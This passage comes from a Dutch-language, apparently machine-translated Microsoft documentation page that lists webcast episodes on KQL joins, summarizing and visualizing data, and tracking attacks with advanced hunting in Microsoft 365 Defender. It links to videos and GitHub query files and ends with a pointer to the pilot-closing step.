| Aflevering 2: joins | We gaan verder met het leren van gegevens in de geavanceerde jacht en het samenvoegen van tabellen. Meer informatie over binnenste, Outer, unieke en semi joins en de nuances van de standaard Kusto innerunique join. | [MP4](https://aka.ms/MTP22JUL20_MP4) | [YouTube](https://youtu.be/LMrO6K5TWOU) | [Aflevering 2: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| Aflevering 3: gegevens samenvatten, draaien en visualiseren|Nu kunnen we gegevens filteren, manipuleren en samenvoegen, het is tijd om te beginnen met het samenvatten, spuiten, draaien en visualiseren. In deze aflevering houden we de operator voor samenvatten samen en maken enkele van de berekeningen die u kunt uitvoeren in extra tabellen in het schema geavanceerde jacht. De gegevenssets worden omgezet in grafieken die de analyse kunnen helpen verbeteren. | [MP4](https://aka.ms/MTP29JUL20_MP4) | [YouTube](https://youtu.be/UKnk9U1NH6Y) | [Aflevering 3: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| Aflevering 4: laten we beginnen. KQL toepassen op incidenten bijhouden|Tijd voor het bijhouden van enkele kwaad willekeurige activiteiten. In deze aflevering gebruiken we onze verbeterde inzichten in KQL en de Advanced jacht in Microsoft 365 Defender om een aanval bij te houden. In dit artikel leest u enkele tips en trucs die in het veld worden gebruikt voor het bijhouden van de activiteit van derden, waaronder de ABCs van Cyber Security en hoe u ze kunt toepassen op de reactie van een incident. | [MP4](https://aka.ms/MTP5AUG20_MP4) | [YouTube](https://youtu.be/2EUxOc_LNd8) | [Aflevering 4: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a>Volgende stap
| <br>[De fase sluiten en samenvatting](mtp-pilot-close.md) | U kunt uw testresultaten van Microsoft 365 Defender analyseren, ze presenteren aan de belanghebbenden en de volgende stap volgen.
|:-----|:-----|

